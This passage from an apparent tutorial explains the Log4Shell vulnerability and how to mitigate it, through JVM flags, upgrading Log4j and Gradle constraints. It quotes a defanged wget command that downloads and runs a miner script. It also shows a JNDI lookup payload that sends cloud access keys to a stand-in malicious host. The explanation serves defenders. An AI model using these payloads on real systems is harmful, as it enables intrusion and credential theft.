 decodes to:

```
wget hXXp://62.210.130[.]250/lh.sh;chmod +x lh.sh;./l
```

Simply said, the assault takes advantage of the Log4j vulnerability to download software, which then initiates the download of a .exe file, which then installs a crypto-miner. Once installed, the crypto-miner begins to use the victim’s resources to mine cryptocurrency for the attackers’ benefit, all without the victim being aware that they have been hacked.

There is a reason why this vulnerability is named Log4Shell. It’s almost like anyone can open a shell on any server and issue commands. Yeah, it’s that bad!


## What is the solution?  

You could think at the end of this tutorial, “Well, that’s good for me as I’m not using Log4j…” But, how certain are you? Your libraries may use Log4j for logging, even if you aren’t using it directly, or they may use other libraries that utilize Log4j for logging. This cycle never ends. Given Log4j’s popularity, it’s likely that any reasonably sized Java application running on the internet has it installed.

First of all, the easiest way to solve this is to block any code coming from external URLs by setting a couple of flags to false in the JVM:

```
com.sun.jndi.ldap.object.trustURLCodebase
con.sunjndi.rmi.object.trustURLCodebase
```

However, even if these flags are disabled and your JVM does not trust and deserialize the object it has received, if the call is made, you may still have a problem with the environment variables. Take a look at the following:

```
${jndi:ldap://www.maliciouswebsite.com:1234/${env:GCP_ACCESS_KEY_ID}/${env:GCP_SECRET_ACCESS_KEY}}
```

Your key values will most likely be preserved as environment variables, which you will transmit to the malicious site. Even if you don’t trust the incoming reply, the call has already been made and the data has already been transferred. Your access and secret keys will be in the hands of the hacker.

To avoid all of this mess, you must first update Log4j to a newer version (2.16 or higher). The message lookups functionality has been disabled in Log4j 2.16.0 (for Java 8 or later) and to mitigate CVE-2021–44228 and CVE-2021–45046, JNDI is deactivated by default. Also, support for the LDAP protocol has been eliminated in JNDI connections as of version 2.17.0 (for Java 8) and only the JAVA protocol is supported.

It’s a straightforward approach, but it might cause issues if you have a lot of interwoven dependencies. Another option is to patch the class directly so that you don’t have to manually upgrade each dependency’s version.

There’s also something called dependency constraints if you’re using Gradle. The following code basically says that you want a certain version of the library, regardless of the dependence, and that it must be strictly updated to 2.16 or higher.
